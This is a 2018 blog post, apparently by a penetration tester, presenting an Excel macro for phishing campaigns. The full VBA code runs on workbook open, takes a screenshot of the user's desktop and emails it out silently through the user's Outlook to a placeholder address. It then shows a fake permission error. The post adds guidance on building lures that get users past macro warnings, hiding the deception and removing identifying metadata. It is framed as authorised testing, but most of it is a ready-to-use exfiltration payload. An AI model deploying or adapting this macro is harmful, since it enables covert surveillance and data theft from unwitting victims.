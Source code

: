 ```yaml
---
title:  "Phishing for Screenshots (Excel Macro)"
date:   2018-12-02 12:00:00
published: true
---
```


When performing social engineering engagements, it's tricky to find a payload that demonstrates the gravity of the attack without going full-on red team and shelling boxes. I've developed something for a recent test that I think finds a nice balance - an Excel macro that will take a screenshot of the user's desktop and leverage their local Outlook profile to email it back to a predefined address.

The target will need to click past either one or two warnings before the macro is executed, so you'll want to create a template that looks enticing enough to take a risk. Something like this might do the trick:

![finance data](/images/post-phishing-screenshots/spreadsheet.png)


# Macro - Workflow

Currently, the macro works like this:

1.) Alerts are disabled (in case of error, we don't want to let the user know).<br>
2.) The 'print screen' key is pressed.<br>
3.) A new tab is added to the spreadsheet.<br>
4.) The screenshot is pasted into the new tab.<br>
5.) This new version of the spreadsheet is saved to c:\users\public.<br>
6.) The additional tab is deleted.<br>
7.) The default Outlook profile is used to send the saved spreadsheet to a defined email address.<br>
8.) Application alerts are enabled.<br>
9.) An alert box pops up with an error "Sorry, your account is not authorised to view this data".<br>

At this point, the user now has a non-macro-enabled version of the spreadsheet open with no trace of the screenshot. They will likely assume there is some sort of permission error and move on to something else. I have also seen cases where they forward it to other users, asking if it works for them. Bonus!

# How to Use
Implementing the macro in a spreadsheet is pretty straightforward. Just do the following:

1.) Build a spreadsheet with some juicy looking content, obfuscated in some way to entice the user to ignore security warnings.<br>
2.) Hit Alt-F11 to bring up the Visual Basic editor.<br>
3.) Double-click on "ThisWorkbook" in the tree view on the left.<br>
4.) Paste the raw macro code in on the right.<br>
5.) The save file as macro-enabled (.xlsm)<br>
6.) Protect (lock) all the cells, to provide a bit of cover for your deception (Protect Sheet/Workbook in the Review tab for Excel 2016 - set a strong password).<br>
7.) Save again.<br>

When you receive hits on the document, open the attachment and look in spreadsheet's second tab. You'll have a screenshot of the user's desktop. Sometimes this contains only the spreadsheet itself in full-screen, but this will at least have the user's name in the title bar. If the user has dual monitors, you'll see both of them included.

Note that when you are testing the document, after you open and click to enable and run macros, the macro-enabled spreadsheet will disappear (see workflow above) and you will have only a standard spreadsheet left open. You'll need to do any editing of the macro prior to enabling and running.


# Important Notes
This is not designed to be stealthy - the Outlook 'Sent Items' folder will contain this message. Also, Excel spreadsheets can contain some sneaky metadata that may expose your identity. I would use this on authorised phishing campaigns or USB drop, but maybe not a red team exercise meant to leave no traces.

Here are a few things you can do to limit your exposure:
- Use an email address not easily connected to your real name.
- Remove all Office metadata both using Windows explorer AND manually by converting to a zip, deleting sensitive strings, and swapping back. Explorer unfortunately doesn't remove it all.

# The Code
Here is the raw macro. You'll need to update 'EMAIL_TO' and 'EMAIL_SUBJ' with your own values.


I'm sure this macro can be improved, so please open an issue on the [GitHub repository](https://github.com/initstring/pentest/blob/master/phishing/screenshot-macro) here if you have an idea.

```
'This document is part of an authorised, simulated phishing campaign.
'If you are reading this - nice work!

Option Explicit


Private Declare Sub keybd_event Lib "user32" (ByVal bVk As Byte, ByVal _
  bScan As Byte, ByVal dwFlags As Long, ByVal dwExtraInfo As Long)

Private Const VK_SNAPSHOT = &H2C
Private Const EMAIL_TO = "phisher@phishingdomain.com"
Private Const EMAIL_SUBJ = "XLS pingback!"

Sub PrintScreen()
    Application.Wait (Now + TimeValue("0:00:01"))
    keybd_event VK_SNAPSHOT, 0, 0, 0
    Application.Wait (Now + TimeValue("0:00:01"))
End Sub

Sub ExportFile()
    Sheets.Add After:=ActiveSheet
    ActiveSheet.PasteSpecial Format:="Bitmap", Link:=False, DisplayAsIcon:= _
        False
    ActiveWorkbook.SaveAs Filename:= _
        "c:\users\public\export.xlsx", _
        FileFormat:=xlOpenXMLWorkbook, CreateBackup:=False
    ActiveWindow.SelectedSheets.Delete
End Sub

Sub Send_Email_Using_VBA()
Dim Email_Subject, Email_Send_From, Email_Send_To, _
Email_Cc, Email_Bcc, Email_Body As String
Dim Mail_Object, Mail_Single As Variant
Email_Subject = EMAIL_SUBJ
Email_Send_To = EMAIL_TO
Email_Body = "Files are attached"
Set Mail_Object = CreateObject("Outlook.Application")
Set Mail_Single = Mail_Object.CreateItem(0)
With Mail_Single
.Subject = Email_Subject
.To = Email_Send_To
.Body = Email_Body
.Attachments.Add "c:\users\public\export.xlsx"
.send
End With
End Sub

Private Sub Workbook_Open()
Application.DisplayAlerts = False
PrintScreen
ExportFile
Send_Email_Using_VBA
Application.DisplayAlerts = True
MsgBox "Sorry, your account is not authorised to view this data."
End Sub
```

